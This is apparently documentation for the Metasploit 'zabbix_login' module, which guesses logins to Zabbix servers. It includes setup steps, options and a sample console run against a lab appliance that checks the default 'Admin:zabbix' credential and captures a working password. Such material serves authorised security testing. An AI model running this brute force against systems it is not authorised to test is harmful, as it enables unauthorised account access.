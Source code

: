## Vulnerable Application

This module attempts to guess valid logins to a specified Zabbix server.
Login details can be retrieved either from an external file, from the database,
or they can be specified one by one via the `USERNAME` and `PASSWORD` options.

This module will also check to see if the default login of `Admin:zabbix` works
and if the target Zabbix host has guest access enabled.

### Environment

Zabbix team provides virtual images of multiple versions of Zabbix
as Zabbix Appliance downloads at https://www.zabbix.com/download_appliance.
This module has been confirmed to work against version 3, 4 and 5, as well as
version 2.4 and 2.2.

## Verification Steps

  1. Download and install one of the Zabbix Appliance virtual images.
  2. Start msfconsole
  3. Do: `use auxiliary/scanner/http/zabbix_login`
  4. Do: `set rhosts [ip]`
  5. Do: `run`
  6. Verify: That the module tries all credentials provided and returns any credentials that it successfully finds.
  7. Verify: That the module also tries the default administrative password of `Admin:zabbix` and also checks if guest access is enabled.
  8. Verify: That running the `creds` command will show that any enumerated passwords have been saved into the database (if one is connected).

## Options

  ### TARGETURI

  Folder where login page is located.  Versions 3 and 4 by default use `/zabbix/`,
  however version 5 uses `/` as its default. Because of this, the module sets
  `TARGETURI` to `/zabbix/` by default, however users can run `set TARGETURI /`
  to change the `TARGETURI` value if needed.

## Scenarios

### Zabbix Version 5.0.5

```
msf6 > use auxiliary/scanner/http/zabbix_login
msf6 auxiliary(scanner/http/zabbix_login) > info

       Name: Zabbix Server Brute Force Utility
     Module: auxiliary/scanner/http/zabbix_login
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  hdm <x@hdm.io>

Check supported:
  No

Basic options:
  Name              Current Setting  Required  Description
  ----              ---------------  --------  -----------
  BLANK_PASSWORDS   false            no        Try blank passwords for all users
  BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
  DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
  DB_ALL_PASS       false            no        Add all passwords in the current database to the list
  DB_ALL_USERS      false            no        Add all users in the current database to the list
  PASSWORD                           no        A specific password to authenticate with
  PASS_FILE                          no        File containing passwords, one per line
  Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT             80               yes       The target port (TCP)
  SSL               false            no        Negotiate SSL/TLS for outgoing connections
  STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
  TARGETURI         /zabbix/         yes       The path to the Zabbix server application
  THREADS           1                yes       The number of concurrent threads (max one per host)
  USERNAME                           no        A specific username to authenticate as
  USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
  USER_AS_PASS      false            no        Try the username as the password for all users
  USER_FILE                          no        File containing usernames, one per line
  VERBOSE           true             yes       Whether to print output for all attempts
  VHOST                              no        HTTP server virtual host

Description:
  This module attempts to login to Zabbix server instance using
  username and password combinations indicated by the USER_FILE,
  PASS_FILE, and USERPASS_FILE options. It will also test for the
  Zabbix default login (Admin:zabbix) and guest access.

msf6 auxiliary(scanner/http/zabbix_login) > set RHOSTS 172.29.121.85
RHOSTS => 172.29.121.85
msf6 auxiliary(scanner/http/zabbix_login) > set TARGETURI /
TARGETURI => /
msf6 auxiliary(scanner/http/zabbix_login) > set USERNAME Admin
USERNAME => Admin
msf6 auxiliary(scanner/http/zabbix_login) > set PASSWORD zabbix2
PASSWORD => zabbix2
msf6 auxiliary(scanner/http/zabbix_login) > run

[*] 172.29.121.85:80 - Found Zabbix version 5.0
[*] 172.29.121.85:80 - This Zabbix instance has disabled Guest mode
[-] 172.29.121.85:80 - Failed: 'Admin:zabbix'
[+] 172.29.121.85:80 - Success: 'Admin:zabbix2'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/zabbix_login) > creds
Credentials
===========

host           origin         service          public                private                                                            realm  private_type    JtR Format
----           ------         -------          ------                -------                                                            -----  ------------    ----------
172.29.121.85  172.29.121.85  80/tcp (http)    Admin                 zabbix2                                                                   Password

msf6 auxiliary(scanner/http/zabbix_login) >
```
